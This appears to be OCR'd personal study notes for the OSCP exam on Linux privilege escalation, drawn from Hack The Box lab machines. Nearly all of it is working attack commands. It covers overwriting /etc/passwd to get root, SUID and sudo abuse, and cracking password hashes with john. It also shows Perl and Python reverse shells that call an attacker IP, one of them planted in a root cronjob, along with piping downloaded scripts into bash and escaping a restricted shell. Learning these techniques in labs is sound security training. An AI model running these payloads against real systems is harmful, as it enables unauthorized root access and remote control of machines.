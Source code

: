 ```yaml
---
title: "OSCP: Linux Privilege Escalation"
parent: OSCP
nav_order: 4
categories:
  - Cyber Security
tags:
  - OSCP
  - Linux
  - Privilege Escalation
---
```


privesc_linux
UPGRADE SHELL python -c ‘import pty; pty.spawn("bin/bash")’
ctrl-Z
stty raw -echo
fg
Enumerate and run this:
which awk perl python ruby gcc cc vi vim nmap find netcat nc wget tftp ftp 2>/dev/null
”_ If you don’t see a compiler such as GCC, you know it’s probably not going to be a kernel exploit. So enumerate and use
LinEnum.sh or Linuxprivescchecker.py. I found on one of my 20 point boxes it only perl and wget, so I was looking for priv esc
related to perl. The other 20 pointer had GCC, so I googled a linux exploit, 2 minutes later I am root.
BY HAND 1. sudo -l # view users rights has to be tried first for all linux privesc
2. rw on /etc/passwd → echo root::0:0:root:/root:/bin/bash > /etc/passwd → su
3. bash_history
4. find / -perm -4000 2>/dev/null # SUID files - detect by date?
5. Do all cronjobs look normal and do you have write access to any??
6. ps aux | grep root == john mysql -u root
7. If webserver poke around database
8. Look at original nmap scan for other shite running (nmap localhost)
sudo -u anotheruser command run sommand as another user
sudo -u scriptmanager bash -i #run shell as user scriptmanager
which awk perl python ruby gcc cc vi vim nmap find netcat nc wget curl tftp ftp 2>/dev/null
DOWNLOAD ALL LINUX ENUM FILES TO VICTIM cd /opt/linux_privesc
python -m SimpleHTTPServer
wget -r 10.10.14.7:8000
curl 10.10.14.7/LinEnum | bash # pipe into bash
or save to victim
linEnum.sh has a -t flag for thorough!!
make a thorough linEnum script bu putting thorough = 1 at top of script
KERNEL EXPLOITS i686 = 32bit
x86_64 = 64bit
when u pop a box what usernames and info did you get on the way in that may help
Get Linux version from Apache version etc... Launchpad?
linux exploit suggester
the exploit will give linux version + exploitable file
check your own file version
eg
ldd --version
cat /etc/lsb-release
Can ignore warnings on gcc compiles
LINUX VERSIONS
ubuntu 2.2.22 apache → launchpad link → prcise
Google ubuntu releases wiki.ubuntu.com/Releases → End of Lifes?
nmap --script vuln -oA nmap/vulns 10.10.10.79
Freebsd uses csh shell
LINUX PASSWORDS unshadow passwd.txt shadow.txt > unshadowed.txt
john --rules --wordlist=/usr/share/wordlists/rockyou.txt unshadowed.txt
42/67
WRITABLE /etc/passwd (Bank) Create encrypted password and place in passwd file
openssl passwd --help
openssl passwd dan
dfVJQnZOraiAw
openssl passwd -1 dan # specifies md5
vi /etc/passwd
replace
root:x:0:0:root:/root:/bin/bash
with
root:dfVJQnZOraiAw:0:0:root:/root:/bin/bash
su root
Password: dan
SUID (Bank) find / -perm -4000 2>/dev/null
/var/htb/bin/emergency
$ ls -la /var/htb/bin/emergency
-rwsr-xr-x 1 root root 112204 Jun 14 2017 /var/htb/bin/emergency
Just run the binary and gain root
/var/htb/bin/emergency
That was simple (will often need to edit binary)
ESCALATE VIA MYSQL ROOT credentials → go into mysql as root then drop ito a shell to pwn box
mysql -u root -p
Enter password: !@#S3cur3P4ssw0rd!@#
Create shell in mysql
\! /bin/sh
DIDNT ESCALATE
sudo -l sudo -l
User shelly may run the following commands on Shocker:
(root) NOPASSWD: /usr/bin/perl
Get the pentest monkey perl shell
Important to add sudo before
sudo /usr/bin/perl -e 'use Socket;$i="10.10.14.7";
$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i))))
{open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
A cronjob (of sorts) test.py owned by us (we are scriptmanager). But note the output (test.txt) is root.
Goody gumdrops.
Put in a new test.py.
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.7",
4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
Open listener on KALI: nc -nlvp 4444
Serve it it to victim's scripts folder
Let the cronjob run → shell
43/67
RESTRICTED BASH To view what we CAN run
monitor@waldo:~$ echo $PATH
/home/monitor/bin:/home/monitor/app-dev:/home/monitor/app-dev/v0.1
ls /home/monitor/bin
ls most red rnano
ls -la /home/monitor/app-dev
total 2236
drwxrwx--- 3 app-dev monitor 4096 May 3 2018 .
drwxr-x--- 5 root monitor 4096 Jul 24 2018 ..
-rwxrwx--- 1 app-dev monitor 13704 Jul 24 2018 logMonitor
rwx-able if we are in monitor group?
rnano /etc/group
monitor:x:1001: ← yes
We will copy /bin/bash and paste it over logMonitor
red /bin/bash ← restricted edit
1099016
w app-dev/logMonitor <- write to logMonitorcd ~
1099016
q
logMonitor
tmp.tUiSCVyRTR: dircolors: command not found
We now have /bin/bash BUT we can still only do whats in our path. BUT... we can echo a normal path (from kali) and set it on
Waldo
ON KALI
echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/local/go/bin:/root/go-workspace/bin
ON WALDO
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/local/go/bin:/root/go-workspace/bin
GET LINENUM WITH CURL
root@kali:/opt/linux_privesc# python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
curl 10.10.14.11:8000/linEnumThorough.sh | bash
[+] Files with POSIX capabilities set:
/usr/bin/tac = cap_dac_read_search+ei
/home/monitor/app-dev/v0.1/logMonitor-0.1 = cap_dac_read_search+ei
[+] Capabilities associated with the current user:
cap_dac_read_search ←
[+] Permissions of files with the same capabilities associated with the current user:
-rwxr-xr-x 1 root root 39752 Feb 22 2017 /usr/bin/tac
man capabilities
CAP_DAC_READ_SEARCH
* Bypass file read permission checks and directory read and execute permission checks;